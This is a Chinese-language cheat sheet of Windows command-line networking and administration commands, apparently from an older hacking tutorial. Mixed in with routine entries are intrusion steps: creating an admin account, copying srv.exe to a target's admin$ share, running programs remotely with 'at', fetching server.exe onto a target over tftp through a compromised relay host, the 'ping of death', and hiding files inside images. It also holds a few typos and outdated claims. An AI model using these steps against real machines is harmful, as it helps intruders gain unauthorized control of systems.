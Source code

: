 - net use \\ip\ipc$ /del  删除IPC链接
- net use h: /del  删除映射对方到本地的为H:的映射
- net user 用户名　密码　/add  建立用户
- net user guest /active:yes  激活guest用户
- net user  查看有哪些用户
- net user 帐户名  查看帐户的属性
- net localgroup administrators 用户名 /add  把“用户”添加到管理员中使其具有管理员权限,注意：administrator后加s用复数
- net start  查看开启了哪些服务
- net start 服务名　  开启服务；(如:net start telnet， net start schedule)
- net stop 服务名  停止某服务
- net time \\目标ip  查看对方时间
- net time \\目标ip /set  设置本地计算机时间与“目标IP”主机的时间同步,加上参数/yes可取消确认信息
- net view  查看本地局域网内开启了哪些共享
- net view \\ip  查看对方局域网内开启了哪些共享
- net config  显示系统网络设置
- net logoff  断开连接的共享
- net pause 服务名  暂停某服务
- net send ip "文本信息"  向对方发信息
- net ver  局域网内正在使用的网络连接类型和信息
- net share  查看本地开启的共享
- net share ipc$  开启ipc$共享
- net share ipc$ /del  删除ipc$共享
- net share c$ /del  删除C：共享
- net user guest 12345  用guest用户登陆后用将密码改为12345
- net password 密码  更改系统登陆密码
- netstat -a  查看开启了哪些端口,常用netstat -an
- netstat -n  查看端口的网络连接情况，常用netstat -an
- netstat -v  查看正在进行的工作
- netstat -p 协议名 例：netstat -p tcq/ip  查看某协议使用情况（查看tcp/ip协议使用情况）
- netstat -s  查看正在使用的所有协议使用情况
- nbtstat -A ip  对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名（03前的为用户名）-注意：参数-A要大写
- tracert -参数 ip(或计算机名)  跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
- ping ip(或域名)  向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
- ping -t -l 65550 ip  死亡之ping(发送大于K的文件并一直ping就成了死亡之ping)
- ipconfig (winipcfg)  用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
- tlist -t  以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
- kill -F 进程名  加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
- del -F 文件名  加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S - *.*”表示删除当前目录下除系统文件以外的所有文件
- del /S /Q 目录 或用：rmdir /s /Q 目录  /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
- move 盘符\路径\要移动的文件名　存放移动文件的路径\移动后文件名  移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
- fc one.txt two.txt > 3st.txt  对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
- at id号  开启已注册的某个计划任务
- at /delete  停止所有计划任务，用参数/yes则不需要确认就直接停止
- at id号 /delete  停止某个已注册的计划任务
- at  查看所有的计划任务
- at \\ip time 程序名(或一个命令) /r  在某时间运行对方某程序并重新启动计算机
- finger username @host  查看最近有哪些用户登陆
- telnet ip 端口  远和登陆服务器,默认端口为23
- open ip  连接到IP（属telnet登陆后的命令）
- telnet  在本机上直接键入telnet 将进入本机的telnet
- copy 路径\文件名1　路径\文件名2 /y  复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
- copy c:\srv.exe \\ip\admin$  复制本地c:\srv.exe到对方的admin下
- cppy 1st.jpg/b+2st.txt/a 3st.jpg  将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
- copy \\ip\admin$\svv.exe c:\ 或:copy\\ip\admin$\*.*  复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
- xcopy 要复制的文件或目录树　目标地址\目录名  复制文件和目录树，用参数/Y将不提示覆盖相同文件
- tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:\server.exe 登陆后，将“IP”的server.exe下载到目标主机c:\server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
- tftp -i 对方IP　put c:\server.exe  登陆后，上传本地c:\server.exe至主机
- ftp ip 端口  用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
- route print  显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
- arp  查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
- start 程序名或命令 /max 或/min  新开一个新窗口并最大化（最小化）运行某程序或命令